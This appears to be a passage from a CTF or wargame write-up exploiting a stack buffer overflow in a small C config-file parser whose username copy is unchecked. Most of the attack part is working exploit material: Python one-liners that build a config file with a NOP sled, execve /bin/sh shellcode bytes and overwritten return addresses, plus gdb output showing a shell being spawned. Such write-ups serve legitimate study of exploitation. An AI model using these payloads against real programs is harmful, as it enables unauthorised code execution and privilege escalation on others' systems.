   init.pid = getpid();
  init.uid = getuid();
   
  while(printf("file add: %x. buff add: %x\n", file, buff) && fgets(buff, BUFFER, file) != NULL)
    {
      puts("FGETS WHILE\n");
      chomp(buff);
      if(strncmp(buff, "USERNAME=", 9) == 0)
	{
          puts("CPSTR->");
	  cpstr(init.username, buff+9);
          puts("<-CPSTR\n");
	}
    }
  puts("END\n");
  fclose(file);
  puts("<-FCLOSE WORKING");
  puts("BoF->\n");
  return init;
}
int main(int argc, char **argv)
{
  struct Init init;
  if(argc != 2)
    {
      printf("Usage : %s <config_file>\n", argv[0]);
      exit(0);
    }
  init = Init(argv[1]);
  printf("[+] Runing the program with username %s, uid %d and pid %d.\n", init.username, init.uid, init.pid);
   
  return 0;
}
```

```
python -c 'print("USERNAME=" + "\x90" * 103 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x16\x4b\x80" )' > config
```

I had trouble replacing the fd because the fd address contained a \x00 so I used stdin instead and I cancel with an EOF (CTRL + D).
I can make EIP point to either init.username address or BUFF address since it got no input.

```
python -c 'print("USERNAME=" + "\x90" * 103 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xc0\x35\xfc\xb7"+ "AAAA" * 7 + "\x53\xf6\xff\xbf" )' > config
```
I get this error but at least it seemed to work somehow:
```
process 12901 is executing new program: /bin/bash
warning: Error reading shared library list entry at 0xffffb460
[Inferior 1 (process 12901) exited normally]
(gdb) quit
```
So let's try this shellcode instead:
http://shell-storm.org/shellcode/files/shellcode-752.php

 "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

python -c 'print("USERNAME=" + "\x90" * 115 +  "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "\xc0\x35\xfc\xb7"+ "AAAA" * 7 + "AAAAAAAAAAAAAAA" )' > config

```